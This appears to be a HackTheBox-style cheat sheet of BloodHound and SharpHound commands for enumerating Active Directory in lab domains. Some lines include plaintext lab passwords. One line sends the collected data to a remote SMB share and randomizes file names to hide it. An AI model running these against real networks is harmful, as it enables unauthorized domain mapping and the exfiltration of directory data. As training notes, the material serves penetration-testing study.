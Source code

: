 


# BloodHound

| Command                                                                                                                            | Description                            |
| ---------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor         |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output   |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                  |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                        |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                        |
